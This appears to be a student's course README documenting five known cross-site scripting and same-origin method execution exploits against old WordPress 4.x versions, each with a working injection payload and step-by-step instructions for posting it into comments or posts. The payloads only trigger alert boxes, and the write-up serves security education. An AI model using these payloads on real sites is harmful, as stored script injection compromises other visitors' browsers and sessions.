 # Chenjun_Frank_Liu_Week7_WP_Eploits
This contains a detailed description on how to create Word Press vulnerability exploits.

## Exploit 1:
  1. Summary: 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  2. Vulnarability Type : XSS
  3. Walkthrough:
  ![](https://i.imgur.com/7zN9982.gif)
  
  4. Code: 
  ```
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>
  ```
  
  5. Description:
     - Go to a Word Press post and locate the comment section.
     - Post the code from 4 into the comment section.
     - Replace <insert 64kb of random data> with any 64kb worth of charatcters. You can use Notepad to help generate those characters.
     - Click "POST COMMENT".

## Exploit 2:
  1. Summary: 4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  2. Vulnarability Type : XSS
  3. Walkthrough:
  ![](https://i.imgur.com/6nlr080.gif)
  
  4. Code:
  ```
  <iframe width="560" height="315" src="https://www.youtube.com/embed/kNKu1uNBVkU" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen onload=alert(0123)></iframe>
  ```
  
  5. Description:
     - Post a new post or create a new post on word Press
     - Fill in title section, and place the code from 4 into the "Text" section.
     - Click "Update" or "Publish" tab.
     - Click "View Post".

## Exploit 3:
  1. Summary: 4.1 - Authenticated Stored Cross-Site Scripting (XSS)
  2. Vulnarability Type : XSS
  3. Walkthrough:
  ![](https://i.imgur.com/u9MgHuF.gif)
  
  4. Code:
  ```
  <a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">A very safe link</a>
  ```
  
  5. Description:
     - Post a new post or create a new post on word Press
     - Fill in title section, and place the code from 4 into the "Text" section.
     - Click "Update" or "Publish" tab.
     - Click "View Post".
     - Move cursor to the linked text.

## Exploit 4:
  1. Summary: 4.0 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  2. Vulnarability Type : XSS
  3. Walkthrough:
  ![](https://i.imgur.com/wSmthE1.gif)
  
  4. Code:
  ```
  <a href="[caption code=">]</a><a title=" onclick=alert('XSS!')  ">A very safe link</a>
  ```
  
  5. Description:
     - Post a new post or create a new post on word Press
     - Fill in title section, and place the code from 4 into the "Text" section.
     - Click "Update" or "Publish" tab.
     - Click "View Post".
     - Move cursor to the linked text and click.
     
## Exploit 5:
  1. Summary: 4.5.1 - Pupload Same Origin Method Execution (SOME)
  2. Vulnarability Type : XSS
  3. Walkthrough:
  ![](https://i.imgur.com/DhYxTEY.gif)
  
  4. Code:
  ```
  <button onclick="fire()">Click</button>
  <script>
  function fire() {
  open('javascript:alert(0123)');
  }
  </script>
  ```

  5. Description:
     - Go to a Word Press post and locate the comment section.
     - Post the code from 4 into the comment section.
     - Click "POST COMMENT".
     - Find the comment and click on the "CLICK" button.
